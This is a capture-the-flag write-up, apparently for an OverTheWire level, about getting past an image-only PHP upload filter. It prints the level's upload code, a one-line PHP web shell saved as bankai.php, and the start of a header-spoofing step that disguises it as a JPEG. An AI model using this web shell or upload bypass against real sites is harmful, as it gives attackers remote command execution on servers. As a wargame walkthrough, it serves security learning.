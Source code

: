 ```php

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);

    $err=$_FILES['uploadedfile']['error'];
    if($err){
        if($err === 2){
            echo "The uploaded file exceeds MAX_FILE_SIZE";
        } else{
            echo "Something went wrong :/";
        }
    } else if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
        echo "File is not an image";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>
```
This code is similar to that of previous level, the difference is that only image files are accepted in this level. This means it won't accept a ```.php``` extension file as it did in the previous level.

We can still find our way around it, right?? That's why we are h4x0rs hehe😎

Doing some research I found this [page](https://null-byte.wonderhowto.com/how-to/bypass-file-upload-restrictions-web-apps-get-shell-0323454). 

We can use something as simple as this ```AAAA<?php system($_GET['cmd']); ?>``` to bypass restrictions. Save this in a ```.php``` file

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/CTF/over_the_wire]
└─$ gedit bankai.php
                                                                                                                                                                                                                                
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/CTF/over_the_wire]
└─$ cat bankai.php
AAAA<?php system($_GET['cmd']); ?>
                                                                                                                                                                                                                                
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/CTF/over_the_wire]
└─$ file bankai.php
bankai.php: ASCII text
```
Now, we'll be using a tool called ```hexeditor``` to change the header of ```bankai.php``` to that of a ```.jpeg``` header.

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/fca6e19a-dc00-46c1-b12a-6b64962595fb)
